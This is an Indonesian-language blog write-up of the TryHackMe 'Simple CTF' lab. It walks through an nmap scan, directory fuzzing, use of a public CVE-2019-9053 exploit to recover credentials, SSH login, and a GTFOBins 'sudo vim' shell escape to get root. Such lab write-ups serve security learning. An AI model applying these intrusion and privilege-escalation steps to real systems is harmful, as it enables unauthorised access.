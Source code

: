 ```yaml
---
title: "Tryhackme - Simple CTF WriteUps"
date: 2022-12-13 13:00:00 +07:00
categories: [WriteUps]
tags: [ctf, Tryhackme, pentest, writeups]
image: 
---
```


# Tryhackme - Simple CTF WriteUps

Pertama kali kita scanning Port yang terbuka dengan Nmap “Nmap -sC -sV ‘Target’”. Setelah menscan kita dapat melihat Port terbuka yaitu port 21, 80, dan 2222.
```
$ nmap -sC -sV 10.10.98.22 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-13 22:54 PST
Nmap scan report for 10.10.98.22
Host is up (0.26s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.46.188
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.92 seconds
```
Disini kita mencoba melihat tampilan website pada port 80. Dan kita mendapatkan tampilan Apache2.

![image](https://media.discordapp.net/attachments/740245586095112242/1055005431703031868/image.png)

Sekarang kita mencoba fuzzing directory dengan dirsearch dan kita mendapatkan: ````/index.html```, ```/robots.txt, /simple```.

![image](https://media.discordapp.net/attachments/740245586095112242/1055005736247230514/image.png)

Kita coba membuka halaman baru dan menambahkan directory ```/simple```. Setelah kita searching secara dalam kita menemukan Vulnerability CVE-2019-9053 dan exploitnya saya dapatkan dari [github](https://github.com/e-renna/CVE-2019-9053).

![image](https://media.discordapp.net/attachments/740245586095112242/1055006129509384222/image.png)

Disini kita mencoba menjalankan dan exploit dengan exploit yang kita dapatkan tadi. Dengan ini kita bisa melihat user, password, dan email yang di hash dengan md5. Dan kita mendapatkan 
```
Username: mitch
Password: secret
Email: admin@admin.com
```
![image](https://media.discordapp.net/attachments/740245586095112242/1055006770373853184/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1055006940461281300/image.png)

Setelah kita mendapatkanya kita coba untuk login pada SSH port 2222 yang kita dapatkan dari scanning network dari Nmap tadi. Dan berhasil login, selanjutnya kita akan local privileges dengan cara melihat sudoers ```sudo -l``` untuk melihatnya dan kita dapat menjalankan ```/usr/bin/vim```

![image](https://media.discordapp.net/attachments/740245586095112242/1055007310969315409/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1055007445166084197/image.png)

Disini kita mencoba exploit dengan payload yang didapat dari [GTFobins](https://gtfobins.github.io/gtfobins/vim/) yang payload ini: 
```
vim -c ':!/bin/sh' 
```
dapat dijalankan secara langsung dengan root untuk memanggil bash pada root.
![image](https://media.discordapp.net/attachments/740245586095112242/1055007970355859566/image.png)

Selanjutnya kita eksekusi dengan payload ini dan menambahkan sudo didepan payload ```sudo vim -c ‘:!/bin/sh’```. Dan berhasil kita telah mendapatkan root access pada server ini.

![image](https://media.discordapp.net/attachments/740245586095112242/1055008241555357736/image.png)
